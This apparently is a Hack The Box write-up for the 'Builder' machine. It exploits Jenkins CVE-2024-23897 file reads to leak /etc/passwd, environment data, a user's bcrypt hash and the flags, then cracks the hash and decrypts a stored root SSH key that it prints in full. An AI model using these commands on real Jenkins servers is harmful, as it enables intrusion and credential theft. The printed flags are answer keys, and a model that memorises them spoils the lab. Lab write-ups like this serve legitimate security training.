 ```yaml
---
layout: post
title: "HTB Linux Medium: Builder"
description: "Builder is a Medium rated Linux machine on HTB."
categories: [CTF,HTB]
tags: [Linux,Easy]
author: g
---
```


## Nmap Scan
```bash
┌──(kali㉿kali)-[~]
└─$ nmap -sC -sV 10.10.11.10 
Starting Nmap 7.94SVN ( <https://nmap.org> ) at 2024-02-13 14:43 EST
Nmap scan report for 10.10.11.10
Host is up (0.032s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 3e:ea:45:4b:c5:d1:6d:6f:e2:d4:d1:3b:0a:3d:a9:4f (ECDSA)
|_  256 64:cc:75:de:4a:e6:a5:b4:73:eb:3f:1b:cf:b4:e3:94 (ED25519)
8080/tcp open  http    Jetty 10.0.18
| http-robots.txt: 1 disallowed entry 
|_/
| http-open-proxy: Potentially OPEN proxy.
|_Methods supported:CONNECTION
|_http-server-header: Jetty(10.0.18)
|_http-title: Dashboard [Jenkins]
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at <https://nmap.org/submit/> .
Nmap done: 1 IP address (1 host up) scanned in 9.12 seconds
```


### Enumerate HTTP (Port 8080)
On the landing page we see that Jenkins 2.441 is running.
![Pasted image 20240714211257.png](/images/Pasted image 20240714211257.png){: .normal }


Checking for exploits for this version, we find the following [PoC](https://github.com/binganao/CVE-2024-23897).
```bash
┌──(kali㉿kali)-[~/Downloads]
└─$ python poc.py <http://10.10.11.10:8080/> /etc/passwd                         
REQ: b'\\x00\\x00\\x00\\x06\\x00\\x00\\x04help\\x00\\x00\\x00\\x0e\\x00\\x00\\x0c@/etc/passwd\\x00\\x00\\x00\\x05\\x02\\x00\\x03GBK\\x00\\x00\\x00\\x07\\x01\\x00\\x05zh_CN\\x00\\x00\\x00\\x00\\x03'

RESPONSE: b'\\x00\\x00\\x00\\x00\\x01\\x08\\n\\x00\\x00\\x00K\\x08ERROR: Too many arguments: daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin\\n\\x00\\x00\\x00\\x1e\\x08java -jar jenkins-cli.jar help\\x00\\x00\\x00\\n\\x08 [COMMAND]\\x00\\x00\\x00\\x01\\x08\\n\\x00\\x00\\x00N\\x08Lists all the available commands or a detailed description of single command.\\n\\x00\\x00\\x00J\\x08 COMMAND : Name of the command (default: root:x:0:0:root:/root:/bin/bash)\\n\\x00\\x00\\x00\\x04\\x04\\x00\\x00\\x00\\x02'
```

In /proc/self/environ we find the home directory of `/var/jenkins_home`.
```bash
┌──(kali㉿kali)-[~/Downloads]
└─$ python poc.py <http://10.10.11.10:8080/> /proc/self/environ
REQ: b'\\x00\\x00\\x00\\x06\\x00\\x00\\x04help\\x00\\x00\\x00\\x15\\x00\\x00\\x13@/proc/self/environ\\x00\\x00\\x00\\x05\\x02\\x00\\x03GBK\\x00\\x00\\x00\\x07\\x01\\x00\\x05zh_CN\\x00\\x00\\x00\\x00\\x03'

RESPONSE: \\x00SHLVL=0\\x00JENKINS_HOME=/var/jenkins_home\\x00REF=/usr/share/jenkins/ref\\x00PATH=/opt/java/openjdk/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin\\x00. Available commands are above. \\n\\x00\\x00\\x00\\x04\\x04\\x00\\x00\\x00\\x05'
```

Get user flag: `a8b63f9472fc21604cd3d485a8fff182`
```bash
┌──(kali㉿kali)-[~/Downloads]
└─$ python3 poc.py <http://10.10.11.10:8080/> /var/jenkins_home/user.txt

a8b63f9472fc21604cd3d485a8fff182
```

### Enumerate Jenkins (Port 8080)
Install jenkins locally for enumeration: [Link](https://github.com/jenkinsci/docker)
```bash
sudo docker run -p 8080:8080 -p 50000:50000 --restart=on-failure jenkins/jenkins:lts-jdk17
```

While enumerating the Docker container we find a users.xml folder that contains the user directory string.
```bash
jenkins@3804af0a8654:~/users$ cat users.xml
<?xml version='1.1' encoding='UTF-8'?>
<hudson.model.UserIdMapper>
  <version>1</version>
  <idToDirectoryNameMap class="concurrent-hash-map">
    <entry>
      <string>giiker</string>
      <string>giiker_3545904605993379044</string>
    </entry>
  </idToDirectoryNameMap>
</hudson.model.UserIdMapper>jenkins@3804af0a8654:~/users$
```

Since the PoC isn’t returning any useful input we can instead download the java cli client from the server: [Link](https://www.jenkins.io/doc/book/managing/cli/)
```bash
┌──(kali㉿kali)-[~/Downloads]
└─$ wget <http://10.10.11.10:8080/jnlpJars/jenkins-cli.jar>
--2024-02-15 11:48:16--  <http://10.10.11.10:8080/jnlpJars/jenkins-cli.jar>
Connecting to 10.10.11.10:8080... connected.
HTTP request sent, awaiting response... 200 OK
Length: 3623400 (3.5M) [application/java-archive]
Saving to: ‘jenkins-cli.jar’

jenkins-cli.jar                         100%[============================================================================>]   3.46M  3.22MB/s    in 1.1s    

2024-02-15 11:48:17 (3.22 MB/s) - ‘jenkins-cli.jar’ saved [3623400/3623400]
```

Using the connect-node option instead of help we are able to retrieve the username of jennifer.
```bash
┌──(kali㉿kali)-[~/Downloads]
└─$ java -jar jenkins-cli.jar -s <http://10.10.11.10:8080> connect-node '@/var/jenkins_home/users/users.xml'
Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
<?xml version='1.1' encoding='UTF-8'?>: No such agent "<?xml version='1.1' encoding='UTF-8'?>" exists.
      <string>jennifer_12108429903186576833</string>: No such agent "      <string>jennifer_12108429903186576833</string>" exists.
  <idToDirectoryNameMap class="concurrent-hash-map">: No such agent "  <idToDirectoryNameMap class="concurrent-hash-map">" exists.
    <entry>: No such agent "    <entry>" exists.
      <string>jennifer</string>: No such agent "      <string>jennifer</string>" exists.
  <version>1</version>: No such agent "  <version>1</version>" exists.
</hudson.model.UserIdMapper>: No such agent "</hudson.model.UserIdMapper>" exists.
  </idToDirectoryNameMap>: No such agent "  </idToDirectoryNameMap>" exists.
<hudson.model.UserIdMapper>: No such agent "<hudson.model.UserIdMapper>" exists.
    </entry>: No such agent "    </entry>" exists.

ERROR: Error occurred while performing this command, see previous stderr output.
```

In the config.xml file located in jennifer’s directory we find a password hash.
```bash
┌──(kali㉿kali)-[~/Downloads]
└─$ java -jar jenkins-cli.jar -s <http://10.10.11.10:8080> connect-node '@/var/jenkins_home/users/jennifer_12108429903186576833/config.xml'

<passwordHash>#jbcrypt:$2a$10$UwR7BpEH.ccfpi1tv6w/XuBtS44S7oUpR2JYiobqxcDQJeN/L4l1a</passwordHash>: No such agent "      <passwordHash>#jbcrypt:$2a$10$UwR7BpEH.ccfpi1tv6w/XuBtS44S7oUpR2JYiobqxcDQJeN/L4l1a</passwordHash>" exists.
```

Use JohnTheRipper to crack the hash.
```bash
┌──(kali㉿kali)-[~]
└─$ john hash -w=/usr/share/wordlists/rockyou.txt     
Using default input encoding: UTF-8
Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
Cost 1 (iteration count) is 1024 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
princess         (?)     
1g 0:00:00:00 DONE (2024-02-15 11:54) 3.448g/s 124.1p/s 124.1c/s 124.1C/s 123456..liverpool
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

We can use the credentials to login to Jenkins: `jennifer:princess`.
![Pasted image 20240714211247.png](/images/Pasted image 20240714211247.png){: .normal }

### Shell as root
Whilst enumerating the Jenkins credentials I came across an SSH private key of the root user.
![Pasted image 20240714211243.png](/images/Pasted image 20240714211243.png){: .normal }

Clicking on update and analyzing the source code we find that there is a value assigned to the private key.
![Pasted image 20240714211239.png](/images/Pasted image 20240714211239.png){: .normal }

In the Jenkins script console we can write a script that will decode the value found earlier: [Link](https://devops.stackexchange.com/questions/2191/how-to-decrypt-jenkins-passwords-from-credentials-xml)
![Pasted image 20240714211227.png](/images/Pasted image 20240714211227.png){: .normal }
```bash
# Result
-----BEGIN OPENSSH PRIVATE KEY-----
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
-----END OPENSSH PRIVATE KEY-----
```

SSH as the root user using the private SSH key.
```bash
┌──(kali㉿kali)-[~]
└─$ ssh -i id_rsa root@10.10.11.10
Welcome to Ubuntu 22.04.3 LTS (GNU/Linux 5.15.0-94-generic x86_64)

 * Documentation:  <https://help.ubuntu.com>
 * Management:     <https://landscape.canonical.com>
 * Support:        <https://ubuntu.com/pro>

  System information as of Thu Feb 15 05:00:40 PM UTC 2024

  System load:  0.03271484375     Processes:                216
  Usage of /:   66.1% of 5.81GB   Users logged in:          0
  Memory usage: 42%               IPv4 address for docker0: 172.17.0.1
  Swap usage:   0%                IPv4 address for eth0:    10.10.11.10

  => There is 1 zombie process.

Expanded Security Maintenance for Applications is not enabled.

0 updates can be applied immediately.

Enable ESM Apps to receive additional future security updates.
See <https://ubuntu.com/esm> or run: sudo pro status

Last login: Thu Feb 15 17:00:41 2024 from 10.10.14.188
root@builder:~# id
uid=0(root) gid=0(root) groups=0(root)
```

Root flag: `4dd0f178f9a0f8a772352f5660abb752`
```bash
root@builder:~# cat root.txt
4dd0f178f9a0f8a772352f5660abb752
```


## PWNED!!!
![Pasted image 20240714211220.png](/images/Pasted image 20240714211220.png){: .normal }